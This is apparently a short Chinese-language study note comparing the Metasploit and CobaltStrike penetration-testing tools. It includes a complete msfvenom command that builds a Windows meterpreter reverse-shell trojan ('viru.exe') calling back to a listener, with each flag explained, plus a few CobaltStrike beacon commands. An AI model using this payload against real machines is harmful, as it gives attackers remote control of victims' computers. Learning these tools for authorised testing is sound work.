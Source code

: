 # [0x001 Metasploit-VS-CobaltStrike](https://www.bilibili.com/video/BV1ng411r7jr/?spm_id_from=333.1007.top_right_bar_window_history.content.click&vd_source=1e325091774aa31c4dcd65d8667c69de)

## Metasploit

~~~ shell
? # 作用是罗列出可能用到的命令

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f exe -o ./viru.exe LHOST=192.168.1.11 LPORT=4444
# msfvenom 是Metasploit程序;
# -p windows/meterpreter/reverse_tcp 指会返回meterpreter的payload类型;
# -a x86 是架构类型x86;
# --platform windows 指的是windows平台;也可指的是Linux平台;
# --f 指的是文件类型exe类型;
# --o ./viru.exe 指输出到viru.exe;
# LHOST=192.168.1.11 LPORT=4444 指监听地址和监听端口;
# Metasploit 是命令行操作,不卡顿,而且Metasploit可以做漏洞扫描;Metasploit开源,命令和功能多;
~~~



## CobaltStrike

~~~ shell
? # 作用是罗列出可能用到的命令;
# 反弹beacon的payload类型;
# CobaltStrike 是UI操作,有可能卡顿,且CobaltStrike不能做漏洞扫描只能做一些生成木马和木马控制的操作;
~~~



# [0x002 CobaltStrike命令行](https://www.bilibili.com/video/BV1kW4y1b7WC/?spm_id_from=333.999.0.0&vd_source=1e325091774aa31c4dcd65d8667c69de)

## 命令行

~~~ shell
写命令行时可以先 ? 罗列出所有的命令;
然后输入 ？ 后加上想执行的命令;
然后再根据给出的命令提示帮助文档输入想执行的全部命令;
~~~

~~~ tex
出现不会的命令需要自己去研究;
~~~



+ upload 上传文件
+ ls 列出文件列表
